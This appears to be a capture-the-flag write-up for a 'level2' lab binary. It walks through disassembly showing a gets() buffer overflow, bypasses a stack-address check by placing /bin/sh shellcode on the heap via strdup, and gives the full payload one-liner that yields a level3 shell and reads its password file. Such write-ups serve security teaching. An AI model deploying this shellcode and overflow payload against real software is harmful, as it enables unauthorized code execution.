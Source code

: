 # Level 2

```bash 
GCC stack protector support:            Enabled
Strict user copy checks:                Disabled
Restrict /dev/mem access:               Enabled
Restrict /dev/kmem access:              Enabled
grsecurity / PaX: No GRKERNSEC
Kernel Heap Hardening: No KERNHEAP
System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level2/level2
```

## Testing the program

```bash
$ ./level2
a
a
```

The program displays the input

## Learning more

```bash
(gdb) disas main
Dump of assembler code for function main:
   0x0804853f <+0>:	push   %ebp
   0x08048540 <+1>:	mov    %esp,%ebp
   0x08048542 <+3>:	and    $0xfffffff0,%esp
   0x08048545 <+6>:	call   0x80484d4 <p>
   0x0804854a <+11>:	leave  
   0x0804854b <+12>:	ret    
End of assembler dump.
```

The main calls a function 'p'. 

```bash
(gdb) disas p
Dump of assembler code for function p:
   0x080484d4 <+0>:	push   %ebp
   0x080484d5 <+1>:	mov    %esp,%ebp
   0x080484d7 <+3>:	sub    $0x68,%esp
   0x080484da <+6>:	mov    0x8049860,%eax
   0x080484df <+11>:	mov    %eax,(%esp)
   0x080484e2 <+14>:	call   0x80483b0 <fflush@plt>
   0x080484e7 <+19>:	lea    -0x4c(%ebp),%eax
   0x080484ea <+22>:	mov    %eax,(%esp)
   0x080484ed <+25>:	call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:	mov    0x4(%ebp),%eax
   0x080484f5 <+33>:	mov    %eax,-0xc(%ebp)
   0x080484f8 <+36>:	mov    -0xc(%ebp),%eax
   0x080484fb <+39>:	and    $0xb0000000,%eax
   0x08048500 <+44>:	cmp    $0xb0000000,%eax
   0x08048505 <+49>:	jne    0x8048527 <p+83>
   0x08048507 <+51>:	mov    $0x8048620,%eax
   0x0804850c <+56>:	mov    -0xc(%ebp),%edx
   0x0804850f <+59>:	mov    %edx,0x4(%esp)
   0x08048513 <+63>:	mov    %eax,(%esp)
   0x08048516 <+66>:	call   0x80483a0 <printf@plt>
   0x0804851b <+71>:	movl   $0x1,(%esp)
   0x08048522 <+78>:	call   0x80483d0 <_exit@plt>
   0x08048527 <+83>:	lea    -0x4c(%ebp),%eax
   0x0804852a <+86>:	mov    %eax,(%esp)
   0x0804852d <+89>:	call   0x80483f0 <puts@plt>
   0x08048532 <+94>:	lea    -0x4c(%ebp),%eax
   0x08048535 <+97>:	mov    %eax,(%esp)
   0x08048538 <+100>:	call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:	leave  
   0x0804853e <+106>:	ret    
End of assembler dump.
```

```bash
0x080484ed <+25>:	call   0x80483c0 <gets@plt>
[...]
0x080484fb <+39>:	and    $0xb0000000,%eax
0x08048500 <+44>:	cmp    $0xb0000000,%eax
```

Like in level1, we can see a call to gets() function which is vulnerable to buffer overflow attack.
A check is made to make sure we dont overwrite the return address to an adress on the stack. 
The restriction on our return address appears to be anything that starts with the the bit ‘b’ (indicated by the ‘and’ calculation with the value "0xb0000000").
Due to this check we couldn't point the return address to the stack (0xbf000000 - 0xbfffffff range). This avoids having a shellcode stored on the stack or in environment variable. But if we can't use the stack we can use the heap !

```bash
0x08048538 <+100>:   call   0x80483e0 <strdup@plt>
```

We see in the program that the buffer is later copied inside a strdup. 
This function use malloc which stores the memory on the heap.


```bash
ltrace ./level2 
__libc_start_main(0x804853f, 1, 0xbffff7f4, 0x8048550, 0x80485c0 <unfinished ...>
fflush(0xb7fd1a20)                              = 0
gets(0xbffff6fc, 0, 0, 0xb7e5ec73, 0x80482b5)   = 0xbffff6fc
puts("")                                        = 1
strdup("")                                      = 0x0804a008
+++ exited (status 8) +++
```

We see that the malloc returns the address '0x0804a008'


## Getting access to the shell 

We are going to use the vulnerability of gets() to overwrite the return address (EIP) so it points to our shellcode saved in the heap at the address 0x0804a008. 


First let's find the offset in order to get to EIP. 
We generate a pettern using [this website](https://wiremask.eu/tools/buffer-overflow-pattern-generator/?)

```bash
$ gdb level2
(gdb) run
Starting program: /home/user/level2/level2 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
(gdb) info register eip
eip            0x37634136	0x37634136
```

We found that the offset of eip starts at 80.
Our shellcode will be a classic bin/sh : 
```plaintext
\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80
```

which we found [here](https://shell-storm.org/shellcode/files/shellcode-575.html)

So we have : 
• shellcode : 21 bytes --> Executes /bin/sh
• arbitrary data : 59 bytes --> Padding to fill the buffer
• return address : 4 bytes --> Points to our shellcode in the heap thanks to the malloc of strdup

```bash
$ python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "A" * 59 + "\x08\xa0\x04\x08"' > /tmp/coucou
cat /tmp/coucou - | ./level2
j
 X?Rh//shh/bin??1?̀AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA?
whoami
level3
cat /home/user/level3/.pass
***************************************
```
